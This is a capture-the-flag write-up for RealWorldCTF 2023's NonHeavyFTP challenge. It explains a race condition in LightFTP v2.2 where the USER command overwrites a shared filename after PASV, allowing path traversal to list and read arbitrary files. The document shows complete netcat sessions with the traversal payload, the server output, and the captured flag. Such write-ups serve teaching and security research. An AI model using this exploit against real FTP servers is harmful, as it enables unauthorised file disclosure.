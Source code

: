 # 2023 RealWorldCTF - NonHeavyFTP

_NOTE: participated on the CTF but not solved during CTF_

We were given hosts and an attached archive. The attachment contained Dockerfile:
```
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND noninteractive

RUN apt-get update &&\
    apt-get install -y --no-install-recommends gdb wget unzip gcc make libc6-dev gnutls-dev uuid

RUN mkdir -p /server/data/ &&\
    echo "hello from LightFTP" >> /server/data/hello.txt &&\
    cd /server &&\
    wget --no-check-certificate https://codeload.github.com/hfiref0x/LightFTP/zip/refs/tags/v2.2 -O LightFTP-2.2.zip &&\
    unzip LightFTP-2.2.zip &&\
    cd LightFTP-2.2/Source/Debug &&\
    make &&\
    cp -a ./fftp /server/ &&\
    cd /server &&\
    rm -rf LightFTP-2.2.zip

COPY ./flag /flag
COPY ./fftp.conf /server/fftp.conf

RUN mv /flag /flag.`uuid` &&\
    useradd -M -d /server/ -U ftp

WORKDIR /server

EXPOSE 2121

CMD ["runuser", "-u", "ftp", "-g", "ftp", "/server/fftp", "/server/fftp.conf"]
```

There was lightftp configuration copied into the Docker container:
```
[ftpconfig]
port=2121
maxusers=10000000
interface=0.0.0.0
local_mask=255.255.255.255

minport=30000
maxport=60000

goodbyemsg=Goodbye!
keepalive=1

[anonymous]
pswd=*
accs=readonly
root=/server/data/
```

There is a public Github repo with source code for LightFTP project available here: https://github.com/hfiref0x/LightFTP.

The solution for this challenge was in the discovery of a shared variable `context->FileName` being read and written across different FTP commands. The issue with the project during the duration of the CTF was the ability to overwrite the `context->FileName` variable with the `USER` FTP command (prior authentication is not needed) while server is waiting for the client connection to retrieve the file contents after `PASV` FTP command was issued (PASV = passive mode = opening a remote port through which the file is being served).

The ability to write to `context->FileName` is here: https://github.com/hfiref0x/LightFTP/blob/c9e473d9444ff1e8380548281bf70dd79b47c3ca/Source/ftpserv.c#L265 and read operation for the set file happens here: https://github.com/hfiref0x/LightFTP/blob/c9e473d9444ff1e8380548281bf70dd79b47c3ca/Source/ftpserv.c#L918-L935. The `context->FileName` contains one value after `PASV` and `RETR` (or `LIST`) commands are issued, but before retrieving the file over the PASV remote port, `context->FileName` can be changed via `USER` command, effectively listing or fetching any file on the server.

Here is an example using the challenge on how to list the root folder which was restricted by `fftp.conf` on the server. The communication with the FTP server is as follows:
```
$ nc -C 47.89.253.219 2221
220 LightFTP server ready
USER anonymous
331 User anonymous OK. Password required
PASS a
230 User logged in, proceed.
PASV 
227 Entering Passive Mode (0,0,0,0,226,232).
LIST /
150 File status okay; about to open data connection.
USER /../../../../../../../../../../../../
331 User /../../../../../../../../../../../../ OK. Password required
226 Transfer complete. Closing data connection.
```

The remote port for fetching the root path listing is calculated as (first\_number*256+second\_number) after `PASV` init, connection should start after `USER` command was used to traverse into another folder:
```
$ nc -C 47.89.253.219 $(echo "226*256+232" | bc)
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 opt
drwxr-xr-x  5 0 0 340 Jan 08 14:25 dev
drwxr-xr-x  2 0 0 4096 Apr 18 2022 home
drwxr-xr-x  1 0 0 4096 Nov 30 02:07 var
lrwxrwxrwx  1 0 0 9 Nov 30 02:04 lib64
drwxr-xr-x  5 0 0 4096 Nov 30 02:07 run
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 mnt
drwx------  1 0 0 4096 Jan 03 05:25 root
drwxr-xr-x  1 0 0 4096 Nov 30 02:04 usr
lrwxrwxrwx  1 0 0 7 Nov 30 02:04 bin
dr-xr-xr-x  13 0 0 0 Jan 03 12:45 sys
drwxr-xr-x  2 0 0 4096 Apr 18 2022 boot
lrwxrwxrwx  1 0 0 8 Nov 30 02:04 sbin
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 srv
drwxr-xr-x  1 0 0 4096 Jan 08 14:25 etc
lrwxrwxrwx  1 0 0 9 Nov 30 02:04 lib32
lrwxrwxrwx  1 0 0 10 Nov 30 02:04 libx32
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 media
drwxrwxrwt  2 0 0 4096 Nov 30 02:07 tmp
dr-xr-xr-x  173 0 0 0 Jan 08 14:25 proc
lrwxrwxrwx  1 0 0 7 Nov 30 02:04 lib
-rwxr-xr-x  1 0 0 0 Jan 08 14:25 .dockerenv
-rw-r--r--  1 0 0 48 Jan 03 05:28 flag.018448a6-8dbe-11ed-a1c5-0242ac110002
drwxr-xr-x  1 0 0 4096 Jan 06 12:31 server
```
To fetch the flag, we use the same approach, just switch from `LIST` to `RETR`. Additional requirement for fetching files is that the `RETR` command must point to a file that exists and is available to the guest:
```
USER anonymous
331 User anonymous OK. Password required
PASS a
230 User logged in, proceed.
PASV
227 Entering Passive Mode (0,0,0,0,222,125).
RETR hello.txt                                    
150 File status okay; about to open data connection.
USER /flag.018448a6-8dbe-11ed-a1c5-0242ac110002
331 User /flag.018448a6-8dbe-11ed-a1c5-0242ac110002 OK. Password required
226 Transfer complete. Closing data connection.
```

In another terminal to fetch the flag file content:
```
$ nc -C 47.89.253.219 $(echo "222*256+125" | bc)
rwctf{race-c0nd1tion-1s-real1y_ha4d_pr0blem!!!}
```
